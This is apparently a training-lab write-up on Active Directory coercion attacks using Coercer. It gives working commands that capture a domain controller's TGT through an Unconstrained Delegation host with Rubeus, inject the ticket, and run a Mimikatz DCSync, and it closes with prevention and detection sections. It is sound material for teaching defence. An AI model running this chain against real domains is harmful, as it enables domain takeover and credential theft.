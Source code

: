 ## Description

Coercing attacks have been a one-stop shop for escalating privileges from any user to Domain Administrator. Nearly every organization with a default AD infrastructure is vulnerable.
Any domain user can coerce RemoteServer$ to authenticate to any machine in the domain. Eventually, the [Coercer](https://github.com/p0dalirius/Coercer) tool was developed to exploit all known vulnerable RPC functions simultaneously.
Similar to [[Print Spooler & NTLM Relaying#Description]], an attacker can choose from several follow up options with the reverse connections.

## Attack

This time, we will abuse the second follow up, assuming that an attacker has gained administrative rights on a server configured for Unconstrained Delegation. This server will capture the TGT, while Coercer will be ran from the kali machine.
First, let's identify the systems configured for Unconstrained Delegation: `Get-NetComputer -Unconstrained | select samaccountname`.
Either _WS001\$_ or _SERVER01\$_ would be a target for an adversary. We have the first one with Bob, so let's start Rubeus to capture TGT.
```powershell
.\Rubeus.exe monitor /interval:1
```

Next, after finding the IP address of WS001, we can switch to the kali machine and execute Coercer towards DC1, while we force it to connect to WS001 if coercing is successful.
```bash
Coercer -u bob -p Slavi123 -d eagle.local -l ws001.eagle.local -t dc1.eagle.local
```

When we go back to the Windows machine, we should see a TGT for DC1 available. We can use it for authentications within the domain, becoming the Domain Controller. From there onwards, DCSync is an obvious attack.
One way of using the TGT is as follows: `.\Rubeus.exe ptt /ticket:doIFdDCCBXCgAwIBBa...`.
Then, a DCSync attack can be executed through Mimikatz: `.\mimikatz.exe "lsadump::dcsync /domain:eagle.local /user:Administrator"`

## Prevention

Windows does not offer control over RPC calls. There are however 2 different general approaches to preventing these attacks:
1. Implementing a third-party RPC firewall and use it to block dangerous RPC functions.
2. Block DCs and other core infrastructure servers from connecting to outbound ports 139 and 445, except those that are required for AD (cross DCs, for domain replication).

## Detection

The RPC Firewall from  [zero networks](https://github.com/zeronetworks/rpcfirewall) is an excellent method of detecting the abuse and can indicate immediate signs of compromise. However, if we don't want third-party software on DCs, then firewall logs are our best chance.
A successful coercing attack with Coercer will result in the following host firewall log, where .128 is the atacker and .200 is the DC.
![[Coercer-FirewallLogs.webp]]

If we go forward and block outbound traffic to ports 139 and 445, then we will see DROP'd packets regarding traffic to untrusted IPs/VLANs.
This DROPs can be used for detection, since any unexpected dropped traffic to those ports is suspicious.
